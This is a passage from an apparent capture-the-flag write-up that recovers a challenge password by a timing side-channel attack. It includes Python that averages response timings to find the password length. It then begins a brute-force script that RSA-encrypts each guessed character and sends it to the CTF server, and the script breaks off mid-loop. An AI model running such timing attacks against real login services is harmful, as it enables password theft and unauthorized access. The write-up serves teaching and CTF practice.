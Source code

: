 ```py  
   maxes.sort()  
   print(maxes[::-1])  
   print(curMax)  
   return maxes  
findMax()  
```  
Unfortunately, because of how the server is set up, we often get false
positives. This set of false positives honestly tripped me  
up at first because I couldn't seem to get the correct length.

Thankfully, all we have to do is run the script multiple times and see  
what length has the lowest ranking on average  
```python  
ranks = {i:[] for i in range(1,20)}  
for i in range(10):  
   print("Round", i)  
   ranking = findMax()  
   for place, (delta, num) in enumerate(ranking):  
       ranks[num].append(place)  
for i in range(1, 20):  
   print(i, ranks[i])  
   print("Average:", sum(ranks[i]) / len(ranks[i]))  
   print()  
```  
And, as it turns out, a length of 6 had an average much much lower than any
other length, meaning it's probably the actual length of the password.

# Final timings  
Now that we have the length of the password, it becomes a much more simple
timing attack, all we need to do is pad our input to be the length of the
password.  
```python  
import requests  
import time

p = 3217  
q = 6451  
e = 17

N = p * q  
phi = (p - 1) * (q - 1)  
d = 4880753

def encryptRSA(m):  
   return pow(m, e, N)

def submit(pwd):  
   arr = []  
   for i in range(len(pwd)):  
       arr.append(encryptRSA(ord(pwd[i])))  
   return ",".join(map(str, arr))

assert submit("12345678") ==
"8272582,17059160,20555739,5510519,9465679,18442920,18644618,3444445"

url = "http://litctf.live:31776/verify?password="  
base = ""  
import string  
alphabet = string.ascii_letters + string.digits # password is alphanumeric,
check main.js  
while True:  
   m = 0  
   mi = 0  
```